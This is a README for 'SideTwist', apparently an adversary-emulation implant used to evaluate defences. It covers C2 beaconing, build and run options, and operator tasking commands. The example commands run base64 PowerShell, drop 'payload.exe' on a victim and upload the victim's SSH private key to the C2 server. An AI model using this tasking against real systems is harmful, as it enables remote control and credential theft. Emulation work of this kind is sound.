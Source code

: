 # SideTwist Implant

## About

The SideTwist implant consists of a single executable. In emulated execution, it only
executes a single command at a time, waiting to again be called by a scheduled task. In
the default execution, no arguments are required as the C2 address and port are hard-coded.
This implementation contains optional arguments to make testing with it a little easier.

At a high level, the lifecycle of the implant consists of the following actions:

```
1. Beacon to the C2 server to get a task in the format `<cmd index>|<cmd type>|<arg1[|arg2]>`
1a. Commands include: command execution, file download, file upload

2. Execute the requested task

3. Return the status via POST. There is a small deviation from the CTI here in that file downloads will generate a POST response
alerting the operator to a successful or unsuccessful write.
```

An additional file, `update.xml`, is required for execution. The implant checks the user's
%LOCALAPPDATA%\\SystemFailureReporter folder and terminates if not found. The file does not need
to contain anything. This is a small deviation from the CTI which used a relative path. Upon testing
with scheduled tasks from the command line, it appears that the binary was being run from a different
path and subsequently unable to follow the relative link. Without using an XP-compatible version of
schtasks from the command line, the "Start In" variable seemingly cannot be set in CMD to allow for the use
of relative paths.

## Build

The implant can be built in Visual Studio, with the Developer Command Prompt from VS, or
with msbuild.exe which can be obtained separately from VS. Whichever option is chosen,
ensure the file `update.xml` exists in %LOCALAPPDATA%\\SystemFailureReporter\\. For example,
for user gosta, place the `update.xml` file in `C:\Users\gosta\AppData\Local\SystemFailureReporter`.
The file does not need to contain any data.

#### Developer Prompt

Open a developer command prompt and navigate to the directory containing the solution file
`SideTwist.sln` (it should be located in the same directory as the SideTwist and
SideTwistTests code folders). Once there, run the following:

`devenv.exe SideTwist.sln /build Release`

The executable will be found in the release folder, typically located in `.\x64\Release`.

## Run

The program can be run without arguments to use the hard-coded values. These values are:

```
IP Address: 192.168.0.4
Port: 443
```

Without arguments, the implant will execute once and exit. To ease testing, additional
arguments are available in the `SideTwist-loopable.exe` version (or by swapping out the
main.cpp for the one found in SideTwist\\loopable_version). NOTE: This loopable version
simply checks the local relative path for update.xml and will not work with scheduled tasks.

```
--loop  Lets the agent continuously execute, looping every 10 seconds
-ip   Sets the IP address of the server rather than using the hard-coded address
-p   Sets the contact port of the server rather than using 443
```

### Note on Command Strings

When issuing a command execution instruction (101 or 104), the default executor is CMD.
Do not supply "cmd /c" as part of commands. For example, simply supply "whoami". Piping
commands is acceptable. Note: CMD does not handle single quotes for paths.

All commands automatically redirect STDERR to STDOUT to capture errors.

For PowerShell, it is recommended you use Base64 encoded commands. Be sure to use the
correct Base64 encoding (UTF-16LE). The command structure to the implant is as follows:

`powershell -e base64goeshere`

Do not include quotes, .exe, or cmd /c "powershell.exe ...".

If you have paths with spaces, recommend single quotes around the instruction with double
quotes inside:

`... 'dir "c:\program files"'`

### Example commands of each type

```
# Execute a command - can swap 101 for 104
./evalsC2client.py --set-task <ID> '101 whoami'
./evalsC2client.py --set-task <ID> '101 powershell -e JABlAG4AdgA6AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQBlAA=='

# Download a file and save it to disk. Argument is victim\path\file.name|serverfile.name
./evalsC2client.py --set-task <ID> '102 c:\users\public\payload.exe|payload.exe'

# Upload a file
./evalsC2client.py --set-task <ID> '103 c:\users\dummy\.ssh\id_rsa'

# Kill the agent in loop mode
./evalsC2client.py --set-task <ID> '105'
```

## Tests

Once the solution is built, there's a separate test executable in the release folder
with the implant. Running that executable should produce the requisite test results.
Some tests depend on local environment variables. They have been written to encompass
the development range (e.g., the test will fail if run on anything other than dragon#).

The server connection is not currently mocked. This means a live C2 server is required for some
tests. Furthermore, the C2 server needs to be on the hard-coded C2 server (192.168.0.4).

The test for run() can be run with a live server and no instruction supplied (e.g.
initial registration of the implant).

The FileDownload test needs the implant to have already been registered and a specific
task waiting: `... '102 c:\users\public\test.txt|sidetwist_test.txt'`. test.txt's contents
do not matter, only that it's a non-empty, base64 encoded file.
